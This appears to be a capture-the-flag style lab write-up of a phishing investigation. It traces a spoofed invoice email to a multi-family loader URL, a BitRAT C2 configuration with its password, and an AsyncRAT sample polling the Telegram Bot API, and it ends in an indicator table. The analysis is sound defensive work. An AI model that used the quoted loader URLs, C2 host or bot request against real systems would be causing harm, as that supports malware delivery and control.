<div align="center">

# 🎣 PhishStrike — Phishing Email & Malware C2 Investigation

### SOC Analyst Tier 2 | CyberDefenders CyberRange


*A full-chain phishing investigation — from a spoofed "purchase receipt" email to a live BitRAT C2 server and a Telegram-based exfiltration channel.*

</div>

---

## 📌 Table of Contents

- [Scenario](#-scenario)
- [Objectives](#-objectives)
- [Investigation Walkthrough](#-investigation-walkthrough)
  - [1. Email Header Forensics](#1-email-header-forensics)
  - [2. Email Body & Weaponized Link](#2-email-body--weaponized-link)
  - [3. IP & URL Reputation](#3-ip--url-reputation)
  - [4. Malware Sample Triage (Static Analysis)](#4-malware-sample-triage-static-analysis)
  - [5. Dynamic Analysis (Sandbox)](#5-dynamic-analysis-sandbox)
  - [6. Payload Deobfuscation](#6-payload-deobfuscation)
  - [7. C2 Configuration Extraction](#7-c2-configuration-extraction)
  - [8. Exfiltration Channel — Telegram Bot API](#8-exfiltration-channel--telegram-bot-api)
- [Indicators of Compromise (IOCs)](#-indicators-of-compromise-iocs)
- [Detection & Mitigation Recommendations](#-detection--mitigation-recommendations)
- [Analyst Notes / Key Takeaways](#-analyst-notes--key-takeaways)
- [Repository Structure](#-repository-structure)

---

## 🧩 Scenario

> As a cybersecurity analyst at an educational institution, an alert fires for a phishing email targeting faculty. The message appears to come from a trusted contact and claims a **$625,000 purchase**, with a link to download an "invoice." The task: investigate the email using threat-intel tooling, inspect the link for malicious content, extract IOCs, and document findings to prevent fraud and support user awareness.

## 🎯 Objectives

- Parse and validate email authentication headers (SPF / DKIM / DMARC / ARC)
- Extract and detonate the malicious payload safely
- Pivot from a single URL to a full malware family + C2 infrastructure profile
- Produce IOCs and detection guidance usable by a SOC team

## 🛠️ Tools Used

| Tool | Purpose |
|---|---|
| **Notepad++** | Raw `.eml` header inspection |
| **VirusTotal** | IP, URL, and file hash reputation |
| **URLhaus (abuse.ch)** | Malicious URL history & payload delivery tracking |
| **MalwareBazaar** | Sample correlation via hash/IP pivoting |
| **Joe Sandbox Cloud** | Dynamic analysis — network traffic & process tree |
| **CyberChef** | Base64 / PowerShell payload decoding |
| **Google dorking (OSINT)** | Cross-validating infrastructure reputation |

---

## 🔍 Investigation Walkthrough

### 1. Email Header Forensics




The message claimed to originate from `erikajohana.lopez@uptc.edu.co` (Universidad Pedagógica y Tecnológica de Colombia) with subject **"COMMERCIAL PURCHASE RECEIPT ONLINE 27 NOV."**

Digging past the first authentication block revealed a **conflict between two authentication checkpoints** — a strong indicator of spoofing/relay abuse:



| Header block | SPF | DKIM | DMARC | Sender IP |
|---|---|---|---|---|
| `X-TM-Authentication-Results` (gateway-rewritten) | pass | none | pass | 209.85.221.65 (Google) |
| `Authentication-Results` / `ARC-Authentication-Results` (true originating hop) | **softfail** | **fail** (no key) | **none** | **18.208.22.104** (AWS EC2) |

The message was actually relayed from an **AWS-hosted host**, not a legitimate `uptc.edu.co` mail server — the domain was **spoofed in the `From:`/`Return-Path`**, and the real originating infrastructure failed authentication outright. The recipient domain (`smtp.rcpttodomain=fsfb.org.co`) confirms this was targeted, not spray-and-pray.



### 2. Email Body & Weaponized Link



The body used classic **invoice-lure social engineering** — a fake $625,000 "purchase receipt" with an urgency-driving access code, and a link disguised as an invoice document:

```
VIEW INVOICE DOCUMENT HERE
hxxp://107.175.247[.]199/loader/install.exe
ACCESS CODE: 8657
```

No PDF, no DOCX — a raw `.exe` served directly from an IP address. This alone is a red flag worth escalating on sight.

### 3. IP & URL Reputation




`107.175.247.199` (AS36352, HostPapa) was flagged by 6/91 VT vendors as malicious/malware, and independent OSINT (Joe Sandbox reports, MalwareBazaar entries) confirmed the IP had a long history of malware hosting.




URLhaus had already tagged the exact URL **`/loader/install.exe`** as serving **three separate payload families over time** — this single loader endpoint had been recycled across campaigns:

| Date first seen | Tag |
|---|---|
| 2022-10-22 | CoinMiner |
| 2022-10-25 | AsyncRAT |
| 2022-10-26 | BitRAT |

### 4. Malware Sample Triage (Static Analysis)

Each payload SHA256 was pivoted through VirusTotal:





All three samples shared the **same detection family lineage** (`trojan.msil/scarsi`, `msilheracles`) — a .NET/MSIL-based loader family used to drop the actual RAT/miner payload, consistent with commodity malware-as-a-service tooling.

Pivoting further via VT **Relations** exposed a shared second-stage host:




Both samples reached out to **`ripley.studio`**, fetching files disguised with image extensions (`Qanjttrbv.jpeg`, `Hjvnp.png`) — a payload-smuggling technique to slip past naive content-type filtering.

### 5. Dynamic Analysis (Sandbox)



Detonation confirmed the live network behavior: the binary reached out over plain HTTP to `ripley.studio`, retrieving what LOOKS like a JPEG but is a secondary loader stage.



The process tree reveals the full execution/persistence chain:

```
6ACFE1FCX2.exe (initial download)
 ├── powershell.exe -enc <base64>          ← delay/evasion routine
 │    └── conhost.exe
 ├── 6ACFE1FCX2.exe (re-spawn / injection)
 │    ├── 6ACFE1FCX2.exe
 │    └── 6ACFE1FCX2.exe
Fsaxd.exe  (C:\Users\user\AppData\Roaming\Fdqudm\Fsaxd.exe)   ← persistence copy, same MD5
 ├── powershell.exe -enc <base64>
 │    └── conhost.exe
 └── Fsaxd.exe
```

The malware **copies itself into `%AppData%\Roaming\` under a randomized folder/name** (`Fdqudm\Fsaxd.exe`) for persistence, and re-launches the identical encoded PowerShell command from both the original and persisted copy.

### 6. Payload Deobfuscation



Decoding the recurring `-enc` PowerShell blob with **CyberChef (From Base64 → Remove null bytes)** revealed:

```powershell
Start-Sleep -Seconds 50
```

A textbook **sandbox-evasion delay** — automated analysis environments with short timeouts will miss the malicious behavior entirely if they don't extend detonation time past this sleep.

### 7. C2 Configuration Extraction



Automated config extraction on the BitRAT-tagged payload surfaced the live C2 profile:

| Field | Value |
|---|---|
| Family | `bitrat` |
| Version | `1.38` |
| C2 | `gh9st.mywire.org:5005` |
| Install dir/file | `svcsvc\svcsvc.exe` (masquerading as a Windows service) |
| Tor process | `tor` (Tor client bundled for anonymized C2 fallback) |
| Comm. password | `803355ca422bf9b37bc523a750e21842` |

The **dynamic-DNS domain (`mywire.org`)** and **bundled Tor client** are consistent with low-cost/commodity RAT infrastructure designed to survive IP takedowns.

### 8. Exfiltration Channel — Telegram Bot API



The AsyncRAT-tagged sample used a **legitimate cloud service as a covert channel** — polling the Telegram Bot API directly for commands:

```
GET https://api.telegram.org/bot5610920260:AAHF8huJ.../getUpdates?offset=-5
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; ... .NET CLR 2.0.50727 ...)
```

This is a classic AsyncRAT/njRAT trait — abusing `api.telegram.org` bypasses most network egress filtering since Telegram's domain/IP space is rarely blocked outright, and the traffic blends in as "ordinary" HTTPS to a trusted cloud provider.



---

## 🧾 Indicators of Compromise (IOCs)

| Type | Indicator | Notes |
|---|---|---|
| Sender (spoofed) | `erikajohana.lopez@uptc.edu.co` | Domain impersonation |
| Sender IP (true) | `18.208.22.104` | AWS EC2, SPF softfail / DKIM fail |
| Malicious URL | `hxxp://107.175.247[.]199/loader/install.exe` | Primary loader, multi-family |
| Malicious URL | `hxxp://107.175.247[.]199/loader/server.exe` | Secondary stage |
| Malicious IP | `107.175.247[.]199` | AS36352 / HostPapa |
| Staging domain | `ripley[.]studio` | Serves fake-extension payloads |
| C2 domain | `gh9st.mywire[.]org:5005` | BitRAT C2 (Dynamic DNS) |
